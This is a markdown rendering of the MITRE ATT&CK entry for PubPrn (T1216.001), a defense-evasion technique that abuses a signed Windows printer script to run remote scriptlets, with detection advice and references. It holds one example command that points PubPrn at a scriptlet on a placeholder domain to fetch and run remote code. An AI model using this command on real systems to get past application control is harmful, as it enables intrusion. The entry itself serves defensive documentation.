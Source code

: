 ```yaml
---
contributors:
- Atul Nair, Qualys
data_sources:
- 'Process: Process Creation'
- 'Command: Command Execution'
- 'Script: Script Execution'
id: attack-pattern--09cd431f-eaf4-4d2a-acaf-2a7acfe7ed58
mitre_attack_url: https://attack.mitre.org/techniques/T1216/001
name: PubPrn
platforms:
- Windows
tactics:
- defense-evasion
title: defense-evasion - PubPrn
---
```


## Technical Details

| Attribute | Details |
|-----------|----------|
| **Tactics** | defense-evasion |
| **Platforms** | Windows |
| **Data Sources** | Process: Process Creation, Command: Command Execution, Script: Script Execution |
| **MITRE ATT&CK URL** | [https://attack.mitre.org/techniques/T1216/001](https://attack.mitre.org/techniques/T1216/001) |

# PubPrn (attack-pattern--09cd431f-eaf4-4d2a-acaf-2a7acfe7ed58)

## Description
Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [Visual Basic](https://attack.mitre.org/techniques/T1059/005) script that publishes a printer to Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the [Windows Command Shell](https://attack.mitre.org/techniques/T1059/003) via <code>Cscript.exe</code>. For example, the following code publishes a printer within the specified domain: <code>cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com</code>.(Citation: pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.(Citation: Enigma0x3 PubPrn Bypass) To do so, adversaries may set the second <code>script:</code> parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), <code>PubPrn.vbs</code> has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to <code>LDAP://</code>, vice the <code>script:</code> moniker which could be used to reference remote code via HTTP(S).

## Detection
Monitor script processes, such as `cscript`, and command-line parameters for scripts like PubPrn.vbs that may be used to proxy execution of malicious files.

## External References
- [mitre-attack](https://attack.mitre.org/techniques/T1216/001)
- [pubprn](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/pubprn)
- [Enigma0x3 PubPrn Bypass](https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/)
